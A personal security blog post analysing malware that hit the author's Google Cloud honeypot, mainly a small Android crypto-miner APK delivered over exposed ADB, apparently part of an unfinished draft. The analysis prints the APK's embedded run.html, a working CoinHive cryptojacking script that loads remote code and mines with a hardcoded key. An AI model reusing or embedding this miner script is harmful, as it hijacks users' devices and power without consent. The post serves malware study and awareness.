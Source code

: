 ```yaml
---
slug: fishing-for-malware
title: Fishing for Malware
authors: [sid]
keywords: ['sid', 'lacy', 'blog', 'website', 'cybersecurity', 'security', 'computer', 'honeypot', 'malware', 'tech', 'network']
tags: [analysis, projects]
description: Analysis of malware dropped into my Google Cloud honeypot
summary: Analysis of malware dropped into my Google Cloud honeypot
date: 2022-01-20
---
```


Over the past 72 hours, I have left a [honeypot](https://usa.kaspersky.com/resource-center/threats/what-is-a-honeypot) ([T-Pot]((https://github.com/telekom-security/tpotce)), courtesy of [Telekom](https://github.com/telekom-security)) running, hosted on a VM instance in Google Cloud. After all, what better way to thank Google for the $400 of [free Cloud Compute resources](https://cloud.google.com/free/docs/gcp-free-tier) they gifted me than to attract malware-distributing bots and hackers directly to their data centers? I jest, but the results of the honeypot have been fascinating and insightful — from attack origins to the payloads and attempted exploits logged over the past few days, there is much to share. 

<!--truncate-->

First, however, I would like to reference the material that inspired and helped me set up the virtual environment for this post. My friend and peer Nathan Burns hosts a technical blog similar to mine at [*nburns.tech*](https://nburns.tech). Further, if you're interested in creating a honeypot of your own as Nathan and I have (which, mind you, is surprisingly accessible), I suggest you check out his tutorial, [*Installing and Configuring a Honeypot in Google Cloud*](https://nburns.tech/docs/Tutorials/honeypot_1). His two-part article does away with the complexity and ambiguity otherwise associated with this task and explains every step required to replicate our configurations in detail.

## Structure and Purpose

In this post, I will showcase the aggregate data collected for the duration of my honeypot's uptime. Then, I have examined a subsection of the malicious binaries received and attack surfaces exploited. I intend to — as a result — shed some light on how malicious actors execute non-targeted, automated attacks against the Internet of Things on a superficial level. Telekom's T-Pot resource collection is well suited to this task, exposing bait on the common vectors, such as SQL Injection, to the uncommon, such as wireless Android ADB.

Please note that, as with all content on my website, education is the only objective. By exposing strategies employed by malware authors, I hope only to contribute to the cybersecurity community and my knowledge. Please do not copy any of the techniques shown here for unethical purposes.

## Who is Attacking Me?

Insert map here.

## What is Attacking Me?

Insert subsection introduction here.

### Planted Binaries

#### Android

One of the most surprising aspects of this project to me was the volume of attacks on each exposed service; that is to say, the frequency of attacks did not seem to match the popularity or obscurity of target platforms. The best example of this, in my opinion, was the avalanche of requests towards Android ADB. What?

Yes, as it seems, there must be enough Android debugging bridges visible to the Internet to warrant the deployment of automated bots pushing Android malware. I have used ADB extensively in the past, experimenting with rooting Android devices, uninstalling bloatware (no, T-Mobile, Facebook should not be a system app), pushing custom Android ROMs, and more. That said, I have always used *USB* debugging. The reason any user would prefer to use wireless debugging, especially for actions involving a device reboot, is beyond me, though I assume it is a feature appreciated by some.

##### Crypto Miner

Information:
 - SHA-256: `0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257`
 - Package name: `com.ufo.miner`
 - Package type: Java Android APK
 - Size: 45.43 KB

[*See this file on VirusTotal*](https://www.virustotal.com/gui/file/0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257/detection)

As the subsection heading and package name imply, this is a crypto miner developed for execution on Android. However, that isn't particularly interesting on its own, and 45.43 KB is small — suspiciously small — so let's take a look inside the file. Contents:

```bash
$ unzip 0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip 
Archive:  0d3c687ffc30e185b836b99bd07fa2b0d460a090626f6bbbd40a95b98ea70257.raw.zip
  inflating: META-INF/MANIFEST.MF    
  inflating: META-INF/CERT.SF        
  inflating: META-INF/CERT.RSA       
 extracting: res/drawable-xhdpi-v4/ic_launcher.png  
  inflating: AndroidManifest.xml     
 extracting: res/drawable-hdpi-v4/ic_launcher.png  
  inflating: res/layout/activity_main.xml  
  inflating: assets/run.html         
 extracting: resources.arsc          
 extracting: res/drawable-mdpi-v4/ic_launcher.png  
  inflating: classes.dex             
 extracting: res/drawable-xxhdpi-v4/ic_launcher.png  
  inflating: res/menu/main.xml     
  
$
```
I see an HTML file, some PNG images, and some other files, the extensions of which I am not familiar. Let's check them out.

```bash
$ cat assets/run.html
```
```html
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
    var miner = new CoinHive.Anonymous('fwW95bBFO91OKUsz1VhlMEQwxmDBz7XE',{
        threads:4,
        throttle: 0.8
});
    miner.start();
</script>
```

Sigh. It remains boring. *However,* by searching for the crypto wallet hardcoded into the HTML, I came across a presentation from [Fortinet](https://www.blackalps.ch/ba-18/files/talks/BlackAlps18-Axelle_Apvrille.pdf), indicating that this CoinHive-related malware may have been a part of the [Trinity Android P2P malware bot](https://blogs.keysight.com/blogs/tech/nwvs.entry.html/2020/11/22/trinity_p2p_malware-8S4I.html), which *is* quite interesting. Alas, that is a rabbit hole for another blog post.

Each PNG was a rescaled version of the stock Android logo — not much to say beyond that.

How I assume this malware works:

1. The victim's stock web browser embeds into an app frame in the background.

2. Instructions are received from CoinHive.

3. The miner starts working, sending proof of work to the address hardcoded into the script.

4. The victim's phone gets too hot, or the battery drains too fast; upon seeing the culprit as *com.ufo.miner* in the power report of the device, the victim promptly uninstalls the application.

---

Sid Lacy  
[Email](mailto:contact@swlacy.com?subject=Hello!) • [LinkedIn](https://www.linkedin.com/in/lacysw/) • [GitHub](https://github.com/lacysw)